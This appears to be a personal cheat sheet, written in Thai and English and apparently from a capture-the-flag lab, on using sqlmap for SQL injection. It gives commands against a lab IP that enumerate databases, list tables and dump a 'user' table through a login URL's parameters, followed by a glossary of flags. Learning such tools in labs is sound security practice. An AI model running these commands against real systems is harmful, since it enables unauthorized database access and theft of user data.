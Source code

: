 #web
# What
- tool ไว้ทำ sql injection
- หา url ที่มี get/pose
# Command
ดู database ทั้งหมด
```bash
sqlmap -u "http://10.10.212.122/ai/includes/user_login?email=fsgdf&password=sdasaf" --dbs
```
ดู tables ทั้งหมดใน database ai
```bash
sqlmap -u "http://10.10.212.122/ai/includes/user_login?email=fsgdf&password=sdasaf" -D ai --tables
```
ดู data ทั้งหมดใน table user จาก database ai
```bash
sqlmap -u "http://10.10.212.122/ai/includes/user_login?email=fsgdf&password=sdasaf" -D ai -T user --dump
```
# Syntax
- -u url
- --dbs เทส playload หา database
- --tables เทส playload หา table
- -D Database
- -T table
- -dump ดึงออกมา
- -r อ่านไฟล์ request
- -p กำหนดว่าจะเทส playload ตรงไหน